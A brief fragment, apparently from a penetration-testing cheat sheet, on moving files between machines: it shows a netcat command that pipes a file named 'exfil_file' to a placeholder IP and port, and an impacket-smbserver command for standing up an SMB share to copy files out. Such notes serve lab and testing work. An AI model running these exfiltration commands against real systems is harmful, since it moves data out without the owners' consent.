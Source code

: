 Machine that you want a file to be transfered:
```
nc -vn <IP> $lport < exfil_file
```

### SMB

Via set a smbserver impacket-smbserver:
```
impacket-smbserver -smb2support sharename /path/to/share
```

Then, use copy to get the file
